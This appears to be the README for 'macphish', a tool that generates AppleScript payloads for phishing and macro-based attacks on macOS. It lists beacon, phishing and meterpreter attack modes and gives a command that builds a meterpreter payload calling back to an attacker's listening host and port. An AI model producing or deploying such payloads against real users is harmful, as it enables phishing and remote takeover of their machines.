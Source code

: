 # macphish
Applescript payload generator
![macphish](macphish-alpha.png?raw=true "macphish")

## Usage
There are 4 attack methods available:
* beacon
* phishing
* meterpreter
* meterpreter-grant

Attack methods 'beacon' and 'phishing' can generate Applescript scripts directly, in case you don't want to run them as macros. For meterpreter attacks, only python payloads are supported at the moment. 

The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -a meterpreter 
```
